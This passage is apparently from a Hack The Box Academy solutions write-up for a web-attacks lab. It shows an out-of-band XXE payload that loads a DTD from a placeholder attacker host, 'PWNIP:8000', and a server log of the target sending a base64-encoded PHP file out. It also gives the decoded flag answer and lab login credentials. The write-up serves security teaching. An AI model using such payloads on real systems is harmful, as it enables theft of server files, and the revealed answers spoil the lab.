 Subsequently, students need to send the below XML data by appending it at the end of the request:

Code: xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE email [ 
	<!ENTITY % remote SYSTEM "http://PWNIP:8000/XXE.dtd">
	  %remote;
	  %oob;
	]>
	<root>
		&content;
	</root>
```

![[HTB Solutions/CPTS/z. images/71957beac4e87ba922dd987ff2cfb074_MD5.jpg]]

After forwarding the request, students will notice that their HTTP server has gotten a request for the "XXE.dtd" file, along with the base64 encoded string of the PHP file:

```
10.129.138.36 - - [21/Jul/2022 18:57:49] "GET /XXE.dtd HTTP/1.0" 200 -
10.129.138.36 - - [21/Jul/2022 18:57:49] "GET /?content=PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K HTTP/1.0" 200 -
```

Decoding the base64 string yields out the flag `HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}`:

Code: shell

```shell
echo "PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K" | base64 -d
```

```
┌─[us-academy-1]─[10.10.14.134]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ echo "PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K" | base64 -d

<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
```

Answer: `HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}`

# Web Attacks - Skills Assessment

## Question 1

### "Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'."

After spawning the target machine, students need to visit its website's root page and login with the credentials `htb-student:Academy_student!`, making sure to have the Network tab of the Web Developer Tools (`FN` + `F12`) open:
